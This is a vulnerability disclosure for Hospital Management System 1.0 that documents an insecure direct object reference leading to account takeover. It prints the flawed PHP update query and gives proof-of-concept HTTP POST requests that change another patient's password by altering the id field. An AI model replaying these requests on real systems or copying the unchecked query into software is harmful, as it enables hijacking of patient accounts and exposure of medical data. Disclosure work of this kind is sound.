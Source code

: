 ```yaml
---
title: Hospital Management System 1.0 Insecure Direct Object Reference / Account Takeover
published: true
---
```



- Exploit Title: Hospital Management System - IDOR + Accaunt Takeover
- Application: Hospital Management System
- Date: 27.02.2024
- Bugs: IDOR + Accaunt Takeover
- Exploit Author: SoSPiro
- Vendor Homepage: https://www.sourcecodester.com/
- Software Link: https://www.sourcecodester.com/php/16720/free-hospital-management-system-small-practices.html
- Version: 1.0
- Tested on: Windows 10 64 bit Wampserver


### Description:

This report focuses on two vulnerabilities known as "Insecure Direct Object References (IDOR)" and "Account Takeover". These vulnerabilities occur in a scenario where user input and access privileges validation is inadequate.


### Vulnerability Details:

- **Application Name**:  Hospital Management System
- **Software Link**: [Download Link](https://www.sourcecodester.com/php/16720/free-hospital-management-system-small-practices.html)
- **Vendor Homepage**: [Vendor Homepage](https://www.sourcecodester.com/)



### The vulnerability lies in the following code snippet:

```php
$sql1="update patient set pemail='$email',pname='$name',ppassword='$password',pnic='$nic',ptel='$tele',paddress='$address' where pid=$id ;";
$database->query($sql1);
echo $sql1;
$sql1="update webuser set email='$email' where email='$oldemail' ;";
$database->query($sql1);
echo $sql1;
```

## Vulnerability Description:

The vulnerabilities in Hospital Management System 1.0 involve Insecure Direct Object References (IDOR) and Account Takeover due to insufficient validation of user input and access privileges. IDOR allows attackers to manipulate user identifiers, granting unauthorized access to and modification of other users' information. This oversight also facilitates Account Takeover, enabling attackers to modify sensitive user data and potentially hijack legitimate accounts for malicious activities.



### Proof of Concept (PoC):

**Target User Information:**

```
---------------------------------
User 1:
ID: 1
Email: patient@patient.com
Password: patient
---------------------------------
User 2:
ID: 4
Email: attack@ker
Password: q1w2e3
---------------------------------
```

- User 1 Request

```
POST /Vaidya%20Mitra/vm/patient/edit-user.php HTTP/1.1
Host: localhost
Cookie: _ga=GA1.1.2080672900.1708952048; _gid=GA1.1.1833914840.1708952048; PHPSESSID=f6je8gcsm0h685mfr2g37ot8to
...
id00=1&oldemail=patient%40patient.com&email=patient%40patient.com&name=Mrs.Sunita+Dighe&nic=422201&Tele=9090909091&address=India&password=patient&cpassword=patient
```

- User 2 Request

```
POST /Vaidya%20Mitra/vm/patient/edit-user.php HTTP/1.1
Host: localhost
Cookie: PHPSESSID=4c8per12a8freilu1upich92a4
...
id00=4&oldemail=attack%40ker&email=attack%40ker&name=attack+attacker&nic=123123123&Tele=0712345677&address=attac&password=q1w2e3&cpassword=q1w2e3
```


- Attacker's Request

The attacker aims to modify the account details of "patient 1" and sends the following HTTP request:

```
POST /Vaidya%20Mitra/vm/patient/edit-user.php HTTP/1.1
Host: localhost
Cookie: PHPSESSID=4c8per12a8freilu1upich92a4
...
id00=1&oldemail=patient%40patient.com&email=patient%40patient.com&name=MRRS.Sunita+Dighe&nic=422201&Tele=9090909091&address=attac&password=q1w2e3&cpassword=q1w2e3
```

In the above SQL queries, the $id value received from the user is directly included in the query and security
checks are not performed. This allows exploiting another user's information. At the same time, since
the user's identity is obtained from the POST data, the attacker can pass his identity as another user's identity.

[Poc viode](https://www.youtube.com/watch?v=pmoBSnu9IYI)

### Impact and Risks:

- These security vulnerabilities pose severe risks to the integrity, confidentiality, and availability of the Hospital Management System. The identified risks include:

1. Unauthorized Access: Attackers can gain unauthorized access to sensitive user information, including personal details and medical records, leading to privacy breaches and confidentiality violations.

2. Data Modification: The ability to manipulate user data enables attackers to tamper with records, potentially causing misinformation, incorrect treatments, and compromised patient care.

3. Account Takeover: With the capability to change user credentials, attackers can hijack legitimate user accounts, leading to identity theft, fraudulent activities, and loss of trust in the system.

4. Non-compliance: Exploiting these vulnerabilities may result in non-compliance with regulatory requirements and industry standards, such as HIPAA (Health Insurance Portability and Accountability Act), exposing the organization to legal liabilities and financial penalties.


### **Risks This security vulnerability exposes user information to unauthorized access and modifications. Consequently, there are potential risks such as account takeover, privacy breaches, and non-compliance with security policies, which can lead to substantial damage and security breaches in the system.**
